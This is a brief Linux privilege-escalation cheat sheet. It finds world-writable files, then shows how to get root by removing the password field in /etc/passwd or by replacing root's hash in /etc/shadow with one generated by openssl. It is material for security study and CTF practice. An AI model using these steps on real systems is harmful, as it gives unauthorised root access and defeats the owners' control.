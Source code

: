 
# Find World-Writable Files
```bash
find / -not -type l -perm -o+w 2>/dev/null
```


## /etc/passwd

If we have write permission of /etc/passwd by some means, we can modify this file as desired for us. First check the content of that file with cat /etc/passwd.
```bash
root:x:0:0:root:/root:/bin/sh
```
By removing this x character in the root line, we can become root without password. Below
```bash
root::0:0:root:/root:/bin/sh
```

## /etc/shadow

If we have write permission of /etc/shadow by some means, we can modify the password for each user.
First of all, create a new password using openssl.

generate a new password (e.g., `Pass`) and run:

```bash
openssl passwd -1 -salt xyz toor
```

You'll get something like:

```bash
$1$xyz$uG83nNwhV1Elk8sfZSSr8.
```

Open `/etc/shadow`, find the line that starts with `root:`, and replace the old hash with your new one. and now you can paste the new generated hash, saved the file and access the root user using the new password

